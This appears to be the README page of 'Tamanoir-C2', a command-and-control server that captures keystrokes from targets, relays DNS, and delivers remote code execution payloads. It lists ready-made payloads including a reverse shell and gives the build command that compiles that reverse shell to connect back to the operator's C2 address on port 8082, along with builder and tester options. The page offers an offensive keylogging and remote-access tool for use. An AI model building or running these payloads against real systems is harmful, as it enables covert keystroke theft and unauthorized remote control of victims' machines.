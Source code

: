 # Tamanoir-C2 server

[Back to Readme](../../README.md)

Tamanoir-C2 (Command and Control) server's  purpose is multiple: 
- act as a dns proxy
- extract typed keystrokes from target
- transmit selected RCE( Remote Code Execution) payloads to target



- ⚠ make sure port 53 is available `sudo systemctl stop systemd-resolved` can help


## Architecture
It is composed of 3 servers:
| type | default port | goal|
|----------|----------|----------|
| DNS  | 53 | handle dns requests from targets and rce payloads transmission |
| TCP  | 8082 | handle remote shell sessions |
| GRPC  | 50051 | handle communication with tui clients |



## 🔥 Available Rce payloads
Tamanoir comes with ready-to-use payloads :


| name | description | comments | 
|----------|----------|----------|
| hello |  prints a cute tamanoir to tamanoir stdout  | hello-world payload, demonstrate how a big payload can be transmitted by chunks to target|
| xeyes | open `xeyes` program on target gui | demonstrate how to execute simple shellcode. Only works if target uses x11 |
| reverse-shell | open a tcp-shell communicating with tamanoir-c2 | needs to specify IP and PORT vars when building (see below) 


### 📍 payloads location: ./assets/payloads


## 🔧 Builder
 
 `tamanoir-c2 rce build`

- will build and strip provided payloads

| name long| name short | description |  default|
|----------|----------|----------|----------|
| --target_arch| -t | x86_64 or aarch64  |  x86_64 |
| --crate_path | -c | path to payload crate (see ./assets/payloads) for examples | - |
| --engine | -e |cross build engine,if needed (docker or podman)  | docker |
| --build-vars | -b | key=value, space-separated env vars required for your payload, if needed  | - | 

- payload output: `~/.tamanoir/bins`
- ⚠ needs [cross](https://github.com/cross-rs/cross) for cross-compilation if target arch != current arch
- ⚠ max payload size (once compiled and stripped) = 4096 bytes

#### example: build reverse-shell 
`tamanoir-c2  rce  build  -c ./assets/payloads/reverse-shell  -b "IP=<tamanoir-c2-ip> PORT=8082"`
will compile `reverse-shell` payload:
- for x86_64 target arch 
- use cross to build it if current arch isn't x86_64
- will establish shell session with \<tamanoir-c2-ip>:8082



## Tester
 `tamanoir-c2 rce test -b <path-to-your-payload-binary>`
- test your payload (locally)
- ⚠ path needs to be absolute

## ⚠ Limitations
Though it is  possible to compile payloads for `x86_64` and `aarch64` architectures, currently only `x86_64` target arch is viable for provided payloads.
Any contributions from people knowledgable about aarch64 assembly code are welcome! (see open issues for context)

